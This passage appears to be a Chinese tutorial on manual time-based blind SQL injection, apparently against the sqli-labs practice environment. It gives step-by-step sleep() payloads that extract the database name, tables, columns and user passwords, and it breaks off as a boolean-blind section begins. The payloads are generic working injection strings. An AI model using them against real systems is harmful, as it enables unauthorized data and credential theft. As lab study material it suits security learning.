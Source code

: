 



### **时间延迟型手工注入** sleep()

#### 爆库长payload

```mysql
?id=1' and if(length(database())=猜库长,sleep(5),1)--+
```

明显延迟，数据库长度为**输入值** 

#### 爆库名payload

```mysql
?id=1' and if(left(database(),1)='s',sleep(5),1)--+
```

明显延迟，数据库第一个字符为s，加下来以此增加left(database(),字符长度)中的字符长度，等号右边以此爆破下一个字符，正确匹配时会延迟。最终爆破得到left(database(),8)='security'

#### 爆表名payload

```mysql
?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+
```

通过坚持不懈的测试，终于在limit 3,1 爆破出user表名为users.

#### 爆列名payload

```mysql
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+
```

首先尝试定向爆破，以提高手工注入速度，修改limit x,1 中的x查询password是否存在表中，lucky的是limit 3,1的时候查到了password列，同样的方法查询username ，又一个lucky，接下来爆破字段的值。

#### 爆破值payload

```mysql
?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

```mysql
?id=1' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

按照id排序，这样便于对应。注意limit 从0开始.通过坚持不懈的尝试终于爆破到第一个用户的名字dumb，密码dumb，需要注意的是，MySQL对大小写不敏感，所以你不知道是Dumb 还是dumb。



### 布尔型手工注入

在布尔型注入中，**正确会回显，错误没有回显**，以此为依据逐字爆破，注意id=1
